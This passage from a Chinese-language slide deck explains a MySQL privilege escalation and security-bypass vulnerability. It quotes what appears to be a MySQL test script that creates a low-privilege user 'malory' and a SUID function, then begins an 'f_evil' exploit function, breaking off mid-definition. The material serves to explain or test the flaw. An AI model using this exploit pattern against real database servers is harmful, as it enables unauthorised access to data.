

# Mysql数据库
MySQL权限提升及安全限制绕过漏洞
2权限提升
以下为引用的内容： --disable_warnings
drop database if exists mysqltest1;
drop database if exists mysqltest2;
drop function if exists f_suid;
--enable_warnings
# Prepare playground
create database mysqltest1;
create database mysqltest2;
create user malory@localhost;
grant all privileges on mysqltest1.* to malory@localhost;
# Create harmless (but SUID!) function
create function f_suid(i int) returns int return 0;
grant execute on function test.f_suid to malory@localhost;
use mysqltest2;

# Create table in which malory@localhost will be interested but to which
# he won't have any access
create table t1 (i int);
connect (malcon, localhost, malory,,mysqltest1);
# Correct malory@localhost don't have access to mysqltest2.t1
--error ER_TABLEACCESS_DENIED_ERROR
select * from mysqltest2.t1;
# Create function which will allow to exploit security hole
delimiter |;
create function f_evil ()
returns int
sql security invoker
begin
set @a:= current_user();